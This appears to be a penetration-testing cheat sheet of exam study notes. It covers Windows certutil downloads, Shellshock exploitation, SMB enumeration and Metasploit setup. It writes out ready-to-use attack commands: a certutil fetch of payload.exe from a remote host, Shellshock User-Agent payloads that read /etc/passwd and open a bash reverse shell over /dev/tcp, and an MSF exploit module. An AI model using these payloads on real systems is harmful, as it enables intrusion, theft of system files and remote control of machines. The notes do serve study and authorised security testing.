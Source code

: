 # Windows Certutil

```bash
##Downloading a file in a shell
certutil -urlcache -f http://10.10.18.2/payload.exe payload.exe
```

# Linux

```bash
##If there is a .cgi script running on the site we could use the shellshock vuln
#Checking a url with nmap
nmap -sV $ip --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

##Injecting commands into the useragent request
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/$LHOST/$LPORT 0>&1'

##Shellshock with MSF
use exploit/multi/http/apache_mod_cgi_bash_env_exec

##Searching for nmap scripts (ftp as example)
ls -la /usr/share/nmap/scripts/ | grep ftp-*

##Enumerating samba shares using smbmap
smbmap -H $ip -u user -p password

##Connecting to smb/samba
smbclient //$ip/SHARENAME -U user

##Enumerating target with enum4linux
enum4linux -a -u user -p password $ip
```

# Network-based attacks
I actually didn't think this section was that informative. It cover what was on the exam but if you want to actually learn this I would recommend just looking up the topics on youtube instead.

# Metasploit
Excellent material. This is going to be a huge section.
Some of these commands are in msf, some are not.

```bash
##Updating and upgrading to the latest version
sudo apt-get update && sudo apt-get install metasploit-framework

##Starting the msfdb
sudo msfdb init

##Starting the postgresql db and msf
sudo systemctl start postgresql && msfconsole

##Checking so that msf is connected to the database
db_status
```
